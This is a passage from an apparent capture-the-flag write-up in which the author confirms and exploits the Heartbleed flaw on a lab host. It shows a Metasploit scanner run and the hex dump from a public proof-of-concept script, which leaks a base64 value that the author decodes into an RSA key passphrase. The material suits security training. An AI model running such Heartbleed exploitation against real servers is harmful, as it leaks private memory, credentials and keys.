 ~~~Bash
   Name  Description
   ----  -----------
   SCAN  Check hosts for vulnerability


msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.129.1.190
RHOSTS => 10.129.1.190
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 10.129.1.190:443      - Heartbeat response with leak, 65535 bytes
[*] 10.129.1.190:443      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
~~~
The output confirms it is vulnerable hence why the heartbeat leaked info.  
## Foothold
### Exploiting Heartbleed
Since I was able to confirm that the target is vulnerable to heartbleed, I decided to move on to another exploit. https://github.com/sensepost/heartbleed-poc.  
The Python script should allow me to get a hex dump.  
~~~Bash.
Server TLS version was 1.2

Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 6E  mV0aGVoeXBlCg==n
  0160: 61 CC DB 71 F3 AC C8 15 D1 6C 7D 6D 51 8E 45 99  a..q.....l}mQ.E.
  0170: 4B EE 83 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  K...............
  ~~~
  In the response I received a Base64 encoding of **aGVhcnRibGVlZGJlbGlldmV0aGVoeXBl**, I can use CyberChef again to decode it.  
  ![decode](screenshots/base64_decode.png)  
  I'll use the output as the passphrase to the RSA key.  
  #### Found Key
  Passphrase: heartbleedbelievethehype  